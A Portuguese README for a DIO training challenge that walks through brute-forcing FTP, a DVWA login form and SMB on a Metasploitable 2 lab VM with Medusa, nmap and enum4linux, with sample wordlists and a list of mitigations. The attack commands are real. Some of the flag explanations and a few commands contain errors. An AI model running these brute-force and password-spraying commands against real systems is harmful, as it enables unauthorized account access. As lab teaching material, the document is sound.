 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida)
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

**Ataque FTP com Medusa**

Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.

# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

-h host alvo
-u usuário único (use -U para arquivo de usuários)
-P caminho da wordlist de senhas
-M ftp módulo FTP
-T 6 threads (ajuste conforme ambiente)
-f encerra ao encontrar credenciais válidas

Validação: após encontrar credenciais, faça login com ftp:

```bash
ftp 192.168.56.101
```
**Ataque a formulário web (DVWA) com Medusa (http\_form)**

DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas

**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

# Enumeração com enum4linux

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```
#Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb\_users.txt
```

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

Medusa smbnt (sintaxe genérica — ajuste conforme versão):

# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.

Validação: se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```
**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.
